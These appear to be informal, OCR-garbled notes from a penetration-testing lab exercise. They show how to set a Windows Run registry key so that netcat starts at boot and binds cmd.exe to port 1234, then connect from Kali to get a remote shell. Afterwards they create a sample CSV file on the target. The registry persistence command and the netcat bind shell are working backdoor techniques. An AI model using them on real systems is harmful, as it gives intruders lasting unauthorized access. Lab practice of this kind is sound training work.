 > now, roll down the window... 
  enter, dude press enter. its amazing i have to keep putting it but if  i dont god knows you'll bitch and complain later lol. ok i'm done bei  ng a brat! haha


11.  Press Ctrl + l to clear the screen.

> The registry keys are now enumerated. Now, set the nc.exe to start on  Windows startup. Type the following command:

> reg setval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run -v nc -d ‘C:\Windows\nc.exe -l -p 1234 -e cmd.exe’

> Press Enter

12. ress Ctrl + l to clear the screen. The registry key was set successfully.

> To verify this, type the following command:

> reg queryval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\R  un -v nc

> press enter

> notice that the registry key values are displayed. this means that th  e registry key was added successfully.

13. press enter


> minimize the window to reach the desktop. Open another Terminal Windo  w.

> On the new terminal window displayed, start the Netcat listener. Type the following command:

> nc -v 192.168.0.5 1234

> Press Enter


!!!!! Alert notice that you have gained access to the Windows prompt.
Note: It is quite likely that you will be prompted with Connection Refused error. Connect to PLABWIN810 and keep its window open. You should then be able to run this command.!!!!!!!!!!!!


==================  Switch!!!! =================

should be switching from PLABKALI01 to PLABWIN810


1. Minimize the nc.exe window. Right-click the Windows charm and select   Run.

2. In the Run dialog box, in the Open textbox, type notepad and click
   OK

3. The Notepad window is displayed. type the following text: 

James 1234567890

Ron 0987654321

4. Click File and then select Save As

5. From the left pane, expand This PC and select Local Disk (C:). In th   e File name textbox, type the following:

> plab.csv
